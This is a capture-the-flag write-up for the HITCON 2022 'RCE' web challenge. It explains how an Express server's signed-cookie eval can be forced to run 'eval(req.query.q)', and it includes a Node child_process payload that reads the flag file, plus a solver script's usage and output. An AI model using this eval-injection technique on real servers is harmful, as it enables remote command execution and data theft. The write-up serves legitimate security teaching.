 # HITCON CTF 2022 - 🎲 RCE

| Tags       | Category | Author                                    |
|------------|----------|-------------------------------------------|
| `beginner` | `web`    | [splitline](https://github.com/splitline) | 

Challenge URL: https://ctf2022.hitcon.org/dashboard/#13

## Challenge:

Hello, I am a Random Code Executor, I can execute r4Nd�M JavaScript code for you ><

Tips:
Have you ever heard of [Infinite monkey theorem](https://en.wikipedia.org/wiki/Infinite_monkey_theorem)? If you click the "RCE!" button enough times you can get the flag

## Solution:

We are presented with a link to a webpage, as well as a [zip file](assets/rce-4bc5d3c73ac0fd8c0b098e9e7ac5a2e1c7a2fcf6.zip). Let's first take a look at the website:

[<img src="assets/screen1.png" alt="screen1.png" width="800"/>](assets/screen1.png)

If we click on the `RCE!` button, the loading bar fills slowly. Afterwards, we are presented with the following message:

[<img src="assets/screen2.png" alt="screen2.png" width="800"/>](assets/screen2.png)

It looks like it is actually executing *random* code.

Inside the [zip file](assets/rce-4bc5d3c73ac0fd8c0b098e9e7ac5a2e1c7a2fcf6.zip), we find the source files for the service. It is an express server with a single [app.js](assets/app.js). Conveniently, a [Dockerfile](assets/Dockerfile) is already provided to run the service, so we build the image and run the app ourselves for testing purposes:

```bash
docker build -t rce-service --build-arg AUTO_DESTROY=9999 .
docker run -d -p 5000:5000 rce-service
```

Now the service is reachable at http://localhost:5000.

Also, if we take a closer look at the [Dockerfile](assets/Dockerfile), we can see where to find the flag. It is written into a file at `/flag-<random_hex_bytes>`. So, our goal is to find a way to read the contents of that.

If we now inspect the [app.js](assets/app.js), we see a small express app. Two routes are registered:

- `/` sends the [index.html](assets/index.html) as well as an empty, signed cookie called `code`.
- `/random` checks the length of the code in that signed cookie. 
    - If it consists of 20 characters or more, it is put into `eval()` and the result is returned. 
    - If it is shorter than that, a random byte is added to the code in the cookie and no code is executed.

So, it uses the signed cookie to execute random code. As the cookie is signed, it is not possible to simply put our own code in the cookie.

Nonetheless, this behavior still enables us to execute any arbitrary code and here is how:

1. Pad the code you want to have executed with '`;`', as it needs to be of length 20. Only then it is executed.
2. Query `/` for an empty cookie
3. Query `/random` with the empty cookie.
    - If it does not contain the first byte of the desired code, repeat this step until it does.
4. Continue querying `/random` with the returned cookie until it contains the code you want to have executed.

One possible payload would be this:
```javascript
require('child_process').execSync('cat /flag-*')
```

There is only one last hurdle with this: The code is executed once it consists of **20 or more** characters. We can't make it any longer. This makes reading the flag file a bit harder as our payload exceeds this.

A solution for this is to provide the payload somewhere else and access it with the code from the cookie, for example in a GET parameter. The code in the cookie then needs to contain something like this: 
```javascript
eval(req.query.q)
```

If we have that prepared in the cookie, we can simply query the following URL and get the flag from the service's response:

http://localhost:5000/random?q=require(%27child_process%27).execSync(%27cat%20/flag-*%27)

Response: `Executing 'eval(req.query.q);;;', result = hitcon{REDACTED}`

I have implemented this in [executor.py](executor.py) which can be used like this[^1].:

```bash
python -u executor.py "http://url.to.instance/" "code to execute"
```

So, for example:

```bash
$ python -u executor.py "http://localhost:5000/" "require('child_process').execSync('cat /flag-*')"
Code to eval: require('child_process').execSync('cat /flag-*')
Generate cookie for: eval(req.query.q);;; (hex: 6576616c287265712e71756572792e71293b3b3b)
|                Progress                |
 ########################################
Executing 'eval(req.query.q);;;', result = hitcon{REDACTED}
```


[^1]: The `-u` is only necessary to have a better output for the (admittedly hacky) process bar.